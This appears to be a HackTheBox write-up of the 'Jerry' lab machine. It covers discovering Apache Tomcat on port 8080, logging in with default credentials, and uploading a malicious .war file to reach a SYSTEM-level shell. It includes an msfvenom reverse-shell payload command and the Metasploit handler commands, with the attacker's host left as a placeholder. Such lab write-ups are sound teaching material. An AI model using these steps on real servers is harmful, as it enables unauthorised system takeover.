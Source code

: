 ```yaml
---
layout: post
title: HackTheBox - Jerry
categories: htb
permalink: /htb-jerry
---
```



Starting off with nmap to determine what ports are open, what services are running on the ports and what are their versions, thus determining the target !

So there is only 1 port open, which is - 8080; http; Apache Tomcat - let's look at the web page and do some enumeration to find any vulnerabilities.

It looks like you this is the default apache tomcat page running version 7.0.88. There are also 3 other web pages; Server Status, Manager App, Host Manager. From experience I know that Host Manager will redirect me to Manager App once I log in successfully, so I will skip it. Let's see what we can find in Server Status page.
As I tried to access the page a login prompt popped up, as usual, but I was able to guess the default credentials (admin:admin). Once I accessed the page I was able to see what is the Hostname of the machine, OS name and version and system architecture. 

I now know with which OS I have to deal. Now, went back to index.html, and tried to login to Manager App. And here I found something interesting. The developer left the default credentials, and tomcat was nice enough to show the default error screen, when I tried to login with wrong username and password. 

I grabbed the credentials from the error page and tried to login to the Manager App, and... Success !

As I'm now logged in as admin, Tomcat has a feature to upload .war files, which I am able to exploit by using msfvenom to generate a reverse shell with .war extension. War files are also like zip files, they store other files inside it, and by this it means that once I upload a war file to tomcat and try to access it, instead of getting the reverse shell immediately, I will have to specify the actual .jsp file inside the war file. And I can do this by simply unzipping the war file to see the actual payload file.

#MSFVenom command to generate .war malicious file.
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f war -o ev1l.war
I opened Metasploit and set the handler I need to use, after that i set the payload and the options to be able to get a connection back.
#In Metasploit
$ use multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST <LocalIP>
$ set LPORT 4444
$ exploit
Once I uploaded the file I unzipped it on my box, checked the jsp file name and accessed it in the web browser to trigger the payload and get reverse shell.



As I now have a meterpreter reverse shell in metasploit I can check now what user I have access to. And it turns out that I was logged in as NT AUTHORITY\SYSTEM. Game Over ! 

That's how you do Jerry from HackTheBox !

